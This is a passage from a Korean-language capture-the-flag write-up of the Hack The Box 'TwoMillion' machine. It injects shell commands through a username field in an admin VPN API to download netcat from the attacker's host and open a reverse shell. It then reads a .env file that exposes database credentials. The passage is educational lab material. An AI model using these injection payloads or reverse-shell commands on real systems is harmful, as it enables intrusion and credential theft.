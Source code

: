 이제 어떻게든 명령어를 넣을 수 있으니 nc 를 옮겨주고 shell을 얻어보자.
``` bash
# Victim
┌──(root㉿kali)-[/home/user] # nc 다운로드
└─# curl -XPOST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -H "Content-Type: application/json" -d '{"username":"readmin;/tmpcurl -o /tmp/nc http://10.10.14.36:8000/nc;"}'


┌──(root㉿kali)-[/home/user] # 실행 권한 부여
└─# curl -XPOST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -H "Content-Type: application/json" -d '{"username":"readmin;chmod +x /tmp/nc;"}'

┌──(root㉿kali)-[/home/user] # reverse shell 연결
└─# curl -XPOST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -H "Content-Type: application/json" -d '{"username":"readmin;/tmp/nc 10.10.14.36 443 -e /bin/bash;"}'

# Hacker
┌──(root㉿kali)-[/home/user]
└─# nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.36] from 2million.htb [10.10.11.221] 51304

whoami      <--- 첫 명령어 입력
www-data

python3 -c 'import pty;pty.spawn("/bin/bash")'  <--- 두번째 명령어 입력

www-data@2million:~/html$ export TERM=xterm
www-data@2million:~/html$
```


프로세스 목록을 보니 php가 동작하고 있다. 이와 관련해 php 설정 파일과 환경 변수를 지정하는 .env 파일을 봐야 한다.
``` bash
root         937       1  0 05:02 ?        00:00:00 /usr/sbin/ModemManager
memcache    1153       1  0 05:02 ?        00:00:07 /usr/bin/memcached -m 64 -p
11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
root        1157       1  0 05:02 ?        00:00:00 /usr/sbin/cron -f -P
root        1158       1  0 05:02 ?        00:00:02 php-fpm: master process (/etc/php/8.1/fpm/php-fpm.conf)
root        1178       1  0 05:02 ?        00:00:00 nginx: master process /usr/s
```

설정 파일(php.ini)에는 별 다른 내용이 크게 존재하지는 않았다. 하지만 환경 변수 파일에는 DB admin 접속 정보가 존재하고 있다. 해당 패스워드로 sudo -s를 해보았으나 되지 않는다.
``` bash
www-data@2million:/etc/php/8.1/fpm$ find ~ -name '.env'
/var/www/html/.env
www-data@2million:/etc/php/8.1/fpm$
www-data@2million:/etc/php/8.1/fpm$ cat /var/www/html/.env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

www-data@2million:/etc/php/8.1/fpm$ sudo -s
[sudo] password for www-data:
Sorry, try again.
```
